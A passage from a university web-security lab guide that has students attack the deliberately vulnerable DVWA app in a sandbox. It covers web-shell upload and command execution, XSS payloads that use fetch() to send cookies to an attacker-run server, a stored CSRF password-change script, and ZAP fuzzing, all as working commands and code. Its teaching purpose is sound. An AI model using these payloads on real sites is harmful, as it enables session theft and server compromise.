root@attacker:~# curl -X POST -F "MAX_FILE_SIZE=100000" -F "uploaded=@wordlist.txt" -F "Upload=Upload" http://10.0.0.10:80/vulnerabilities/upload/ | lynx -nolist -dump -stdin
...
Vulnerability: File Upload

   Choose an image to upload:

   Upload
../../hackable/uploads/wordlist.txt succesfully uploaded!
```
* The `wordlist.txt` file was successfully uploaded to the server at `../../hackable/uploads/wordlist.txt`.

* Use `curl` to download the uploaded file and verify its content.

```shell-session
root@attacker:~# curl http://10.0.0.10:80/vulnerabilities/upload/../../hackable/uploads/wordlist.txt
wrong-password
password
```

* The URL `http://10.0.0.10:80/vulnerabilities/upload/../../hackable/uploads/wordlist.txt` contains redundant parts (`vulnerabilities/upload/../../`) that can be simplified. This is due to the `../` syntax, which moves up one directory in the file path. The clean and equivalent URL is `http://10.0.0.10:80/hackable/uploads/wordlist.txt`.

```shell-session
root@attacker:~# curl http://10.0.0.10:80/hackable/uploads/wordlist.txt
wrong-password
password
```
</details>

<details open>
<summary>
Web shell attack
</summary>

* Identify the scripting language used by DVWA by fingerprinting the web server. Use the `curl -I` option to inspect the [HTTP response headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD) and look for any indicators (e.g., [X-Powered-By](https://cheatsheetseries.owasp.org/cheatsheets/HTTP_Headers_Cheat_Sheet.html#x-powered-by)) that may reveal the server's scripting language. Additionally, analyze the URLs and file extensions in the response (see task on forced browsing) to make inferences about the scripting language (e.g., .php, .py, .html).

```shell-session
root@attacker:~# curl -I 10.0.0.10
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 15:50:56 GMT
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.3.13
Set-Cookie: security=low; path=/
Set-Cookie: PHPSESSID=a38f22af034d65f8cd0647123f83309a; expires=Fri, 29 Nov 2024 15:50:56 GMT; Max-Age=86400; path=/
Expires: Tue, 23 Jun 2009 12:00:00 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html;charset=utf-8
```
 
* Explore the available collection of PHP web shells in Kali Linux (located at `/usr/share/webshells/php/`) and attempt to upload `simple-backdoor.php` to the DVWA web server. 

```shell-session
root@attacker:~# curl -s -X POST -F "MAX_FILE_SIZE=100000" -F "uploaded=@/usr/share/webshells/php/simple-backdoor.php" -F "Upload=Upload" http://10.0.0.10:80/vulnerabilities/upload/ | lynx -nolist -dump -stdin

../../hackable/uploads/simple-backdoor.php succesfully uploaded!
```

* Execute the web shell on the server and analyze the response.

```shell-session
root@attacker:~# curl -s http://10.0.0.10:80/hackable/uploads/simple-backdoor.php | lynx -nolist -dump -stdin
   Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
```

* Craft a command to display the IP address, username, and the working directory where the web shell is running.

```shell-session
root@attacker:~# curl -s 'http://10.0.0.10:80/hackable/uploads/simple-backdoor.php?cmd=hostname+-I;whoami;pwd' | lynx -nolist -dump -stdin
10.0.0.10
www-data
/var/www/html/hackable/uploads
```

* Use HTTP POST method to send commands to web shell.

```shell-session
root@attacker:~# curl -s -d 'cmd=hostname -I; whoami; pwd' http://10.0.0.10:80/hackable/uploads/simple-backdoor.php | lynx -nolist -dump -stdin
10.0.0.10
www-data
/var/www/html/hackable/uploads
```
</details>

### Task: Cross-Site Scripting Attacks

There are three primary types of Cross-Site Scripting (XSS) attacks [[PortSwigger](https://portswigger.net/web-security/cross-site-scripting), [OWASP](https://owasp.org/www-community/attacks/xss/)]. **Reflected XSS** occurs when the malicious script is embedded in the current HTTP request and is reflected back to the user without proper sanitization. **Stored XSS** involves the injection of a malicious script into a website's database, which is then served to users when they access affected pages. Finally, **DOM-based XSS** arises from vulnerabilities in client-side code, where the browser processes the malicious script directly, independent of the server-side logic.

<details open>
<summary>
Reflected XSS Attack
</summary>

* To perform a reflected XSS attack, we will set up [`simplehttpserver.py`](./simplehttpserver.py) on the attacker's machine to capture and visualize data exfiltrated from the user's browser. The server will listen on TCP port 8080.

```shell-session
root@attacker:~# python simplehttpserver.py
Simple HTTP server listening on port 8080
Decoded POST data: {'userAgent': ['Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0']}
10.0.0.254 - - [29/Nov/2024 22:20:22] "POST / HTTP/1.1" 200 -
Decoded POST data: {'cookies': ['security=low; PHPSESSID=f820db33450a96e31a3139fd2ad8efbd']}
10.0.0.254 - - [29/Nov/2024 22:20:54] "POST / HTTP/1.1" 200 -
```

* To monitor and debug traffic between the XSS script running in the `Firefox` browser and `simplehttpserver.py`, we will use `tshark` to capture HTTP POST requests on the loopback (lo) interface. 

```shell-session
root@attacker:~# tshark -l -q -n -i lo -f "dst host 10.0.0.254" -Y "http.request.method == POST" -O http,urlencoded-form  | sed 's/\\r\\n//g'
Frame 4: 524 bytes on wire (4192 bits), 524 bytes captured (4192 bits) on interface lo, id 0
Ethernet II, Src: 00:00:00:00:00:00, Dst: 00:00:00:00:00:00
Internet Protocol Version 4, Src: 10.0.0.254, Dst: 10.0.0.254
Transmission Control Protocol, Src Port: 55622, Dst Port: 8080, Seq: 1, Ack: 1, Len: 458
Hypertext Transfer Protocol
    POST / HTTP/1.1
        Request Method: POST
        Request URI: /
        Request Version: HTTP/1.1
    Host: 10.0.0.254:8080
    User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.0.0.10/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 105
        [Content length: 105]
    Origin: http://10.0.0.10
    Connection: keep-alive

    [Full request URI: http://10.0.0.254:8080/]
    File Data: 105 bytes
HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "userAgent" = "Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0"
        Key: userAgent
        Value: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
```

* We will use a reflected XSS attack to exfiltrate the `User-Agent` and `Cookie` values.

```javascript
<script>
    fetch('http://10.0.0.254:8080', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: 'userAgent=' + encodeURIComponent(navigator.userAgent) 
    });
</script>
```

```javascript
<script>
    fetch('http://10.0.0.254:8080', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: 'cookies=' + encodeURIComponent(document.cookie)
    });
</script>
```

* To make it easier to insert the script code into the browser forms, we converted the scripts into their respective one-liners.

```javascript
<script> fetch('http://10.0.0.254:8080', { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: 'userAgent=' + encodeURIComponent(navigator.userAgent) }); </script>

<script> fetch('http://10.0.0.254:8080', { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: 'cookies=' + encodeURIComponent(document.cookie) }); </script>
```

* Navigate to the XSS (Reflected) menu in DVWA. Enter your name and append the javascript code to exfiltrate the `User-Agent`. You should be able to see the `User-Agent` value of the `Firefox` browser in `tshark` and `simplehttpserver` on the attacker's machine. Next, test the script to exfiltrate the cookies.

* To automate sending the cookies, use the following script, perform the XSS (Reflected) attack, and click the button.

```javascript
<a href="#" onclick="fetch('http://10.0.0.254:8080', {method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'}, body: 'cookies=' + encodeURIComponent(document.cookie)});">Click me to send your cookies to me!</a>
```

* Write your own javascript code and test it to practice exploiting a reflected XSS attack.

</details>

<details open>
<summary>
Stored XSS Attack
</summary>

* We will continue to use `simplehttpserver.py` and `tshark` on the attacker's machine to capture and visualize data exfiltrated from the user's browser.

* Navigate to the XSS (Stored) menu in DVWA and submit a new message to the board with the name `XSS-ALERT` and the content `<script>alert(navigator.userAgent)</script>`. Then, visit any random page in DVWA and return to the XSS (Stored) page. Each time the page is displayed, the script will execute, triggering a popup message. Clear the guestbook before moving on to the next task.

* Let's submit a new message to the board with the name `XSS-UA` and the javascript code used in the reflected XSS attack to exfiltrate the User-Agent to a remote server.

* Guestbook messages are limited to 50 characters by the input form, making it impossible to directly input the entire javascript code when it exceeds this character limit. Locate the following line in the XSS (Stored) HTML page (right-click on the message input field in Firefox and select `Inspect (Q)` from the context menu), then change the value to 300, which is the actual maximum size of the field in the database. This adjustment will allow you to enter the full script.

```html
<textarea name="mtxMessage" cols="50" rows="3" maxlength="50"></textarea>
```

* Each time the XSS (Stored) page is displayed, the script will execute and send the User-Agent to our server. Clear the guestbook before moving on to the next task.

* We will use `curl` to submit the guestbook message and bypass the maxlength limit. It's important to replace all `+` characters with `%2B` in the javascript provided to `curl`. The plus sign (+) has a specific meaning: curl interprets it as a space, which will break the script. 

```shell-session
root@attacker:~# curl -X POST http://10.0.0.10/vulnerabilities/xss_s/ -d "btnSign=Sign Guestbook" -d "txtName=CURL-XSS-UA" -d "mtxMessage=<script>fetch('http://10.0.0.254:8080', {method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'}, body: 'userAgent=' %2B encodeURIComponent(navigator.userAgent)});</script>" | lynx -nolist -dump -stdin
...
Vulnerability: Stored Cross Site Scripting (XSS)

   Name *    ______________________________
   Message *
   __________________________________________________
   __________________________________________________
   __________________________________________________
             Sign Guestbook Clear Guestbook
   Name: CURL-XSS-UA
   Message:
```

* Use curl to upload the javascript that will exfiltrate the cookies, then check the web server output after displaying the XSS (Stored) page. You should see both the `User-Agent` and `cookies` of the browser that accessed the guestbook. Clear the guestbook before moving on to the next task.

```shell-session
root@attacker:~# python simplehttpserver.py
Simple HTTP server listening on port 8080
Decoded POST data: {'userAgent': ['Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0']}
10.0.0.254 - - [30/Nov/2024 05:48:51] "POST / HTTP/1.1" 200 -
Decoded POST data: {'cookies': ['security=low; PHPSESSID=f820db33450a96e31a3139fd2ad8efbd']}
10.0.0.254 - - [30/Nov/2024 05:48:51] "POST / HTTP/1.1" 200 -
```

* Use `curl` to upload the javascript that will `redirect users to the login page` after displaying the XSS (Stored) page. After completing this task, `reset the DVWA database` before proceeding to the next task.

```javascript
<script>window.location.replace('http://10.0.0.10/login.php');</script>
```

* Write your own javascript code and test it to practice exploiting a stored XSS attack.

</details>

<details open>
<summary>
DOM-based XSS Attack
</summary>

* We will continue to use `simplehttpserver.py` and `tshark` on the attacker's machine to capture and visualize data exfiltrated from the user's browser.

* Navigate to the XSS (DOM) menu in DVWA, select the `French` language, and click the `Select` button. The browser will display the updated URL.

```html
http://10.0.0.10/vulnerabilities/xss_d/?default=French
```

* By analyzing the page source code, we can see that the value placed in the URL is used to build the page's DOM. This opens up the possibility of a DOM-based XSS attack, where malicious javascript is embedded in the URL and executed by the client-side javascript during page rendering. In this case, the XSS payload is dynamically constructed as the page renders, rather than being statically served during the server fetch. 

```javascript
<form name="XSS" method="GET">
	<select name="default">
		<script>
			if (document.location.href.indexOf("default=") >= 0) {
				var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
				document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
				document.write("<option value='' disabled='disabled'>----</option>");
			}

			document.write("<option value='English'>English</option>");
			document.write("<option value='French'>French</option>");
			document.write("<option value='Spanish'>Spanish</option>");
			document.write("<option value='German'>German</option>");
		</script>
	</select>
	<input type="submit" value="Select" />
</form>
```

* Extend the original URL by appending javascript code to display the `User-Agent` in the browser.

```html
http://10.0.0.10/vulnerabilities/xss_d/?default=French<script>alert(navigator.userAgent)</script>
```

* Use javascript code to exfiltrate the User-Agent and cookies, as well as redirect the page, to practice a DOM-based XSS attack.
</details>

### Task: Cross-Site Request Forgery Attack

Cross-Site Request Forgery (CSRF) [[PortSwigger](https://portswigger.net/web-security/csrf), [OWASP](https://owasp.org/www-community/attacks/csrf)] is a web security vulnerability that enables attackers to trick authenticated users into performing unintended actions on a web application. By exploiting the trust a website has in the user's browser, an attacker can craft malicious requests that appear legitimate. These actions, executed without the user's intent, can range from changing account details to initiating financial transactions, posing significant security risks to both users and web applications.

<details open>
<summary>
Cross-Site Request Forgery Attack
</summary>

* Log in to the DVWA portal using the page at `http://10.0.0.10/login.php`, and enter the username `admin` and the password `password`.

* Navigate to the CSRF menu in DVWA and change the password to `1234`. The browser will display the updated URL used to change the password for the logged-in user.

```html
http://10.0.0.10/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#
```

* Craft a javascript code that will change the password of the logged-in user to `CSRFvulnerable`.

```javascript
<script>
    fetch('http://10.0.0.10/vulnerabilities/csrf/?password_new=CSRFvulnerable&password_conf=CSRFvulnerable&Change=Change' + encodeURIComponent(document.cookie), {
        method: 'GET'
    });
</script>
```

* Use curl to upload the javascript to the guestbook. It's important to replace all `&` characters with `%26` and `+` characters with `%2B` in the javascript.

```shell-session
root@attacker:~# curl -s -X POST http://10.0.0.10/vulnerabilities/xss_s/ -d "btnSign=Sign Guestbook" -d "txtName=CSRF-PASSWORD" -d "mtxMessage=<script> fetch('http://10.0.0.10/vulnerabilities/csrf/?password_new=CSRFvulnerable%26password_conf=CSRFvulnerable%26Change=Change' %2B encodeURIComponent(document.cookie), { method: 'GET' }); </script>" | lynx -nolist -dump -stdin
```

* Display the XSS (Stored) page to execute the script and unintentionally change the admin password to `CSRFvulnerable`.

* Open a new `Firefox` private window (anonymous mode). Log in to the DVWA portal using the page at `http://10.0.0.10/login.php`, and enter the username `admin` and the password `CSRFvulnerable` to verify that the CSRF attack was completed successfully. 

* Reset the DVWA database before moving on to the next task.

</details>

### Task: Man-in-the-Middle Attack

[ZAP](https://www.zaproxy.org) (Zed Attack Proxy) acts as a proxy for intercepting and inspecting HTTP/HTTPS traffic between a client (browser) and a server. Functioning as a Man-in-the-Middle (MITM), ZAP allows testers to analyze requests and responses, manipulate data, and identify security vulnerabilities such as XSS, SQL injection, and CSRF.

<details open>
<summary>
ZAP - Zed Attack Proxy
</summary>

* **Launch ZAP**: Start ZAP by running the `zaproxy` command in the terminal or opening it from the applications menu. Once ZAP launches, verify that the `Main Proxy` is active by checking the bottom bar of the interface, where it should display `localhost:8080`. If needed, adjust the proxy settings via `Tools -> Options -> Local Proxy` to ensure the configuration matches this setup.

* **Configure Firefox**: Open the Firefox browser and configure it to use an HTTP proxy. Go to `Settings -> Network Settings -> Connection Settings`, select `Manual Proxy Configuration`, enter `127.0.0.1` as the HTTP Proxy, and set the Port to `8080`.

* **Navigate to DVWA**: In Firefox, go to the DVWA portal by entering `http://10.0.0.10` in the address bar. Once the page loads, switch to the ZAP interface. Check the `Sites` or `History` tab to observe the captured HTTP traffic. Focus on the `Request` and `Response` tabs to analyze the communication between the browser and the server.

* **Interact with DVWA**: Navigate to the `Brute Force` menu in DVWA. Enter the username `admin` and the password `1234`, then submit the form. Return to the ZAP interface to view and analyze the captured HTTP request and response details.

* **Configure Fuzzing in ZAP**: In ZAP, locate and select the `GET request` containing the filled username and password fields. Highlight the password field (the text `1234`), `right-click` to open the context menu, and select the `Fuzz option` to begin configuring a fuzzing attack. Next, go to `Payloads -> Add -> File`, enter the wordlist path `/usr/share/wordlists/wfuzz/general/common.txt`, and start the fuzzer. The key steps are shown in the figure below.


* Go to the `Search tab` and select the `HTTP Fuzzer Results` from the pop-up menu. In the search bar, enter the phrase `Welcome to the password` to find any occurrences of this phrase in the captured HTTP responses. Check that the value of the password field is set to password. The key steps are shown in the figure below.


* Get familiar with ZAP by exploring its various features and functions. Practice using other tools within the ZAP proxy, such as Forced Browse, Spider, Active Scan, and Fuzzing, to analyze and test the security of the DVWA web application.

</details>

## Feedback on Lab Sessions

This is the last lab session of PB177. Please provide your feedback using Claper at http://172.26.7.88:4000/e/6377 (accessible only from FI, VPN, `wlan_fi` or `eduroam` networks).

## End of the Lab

If you finish all tasks, stop the sandbox using `podman-compose down`.

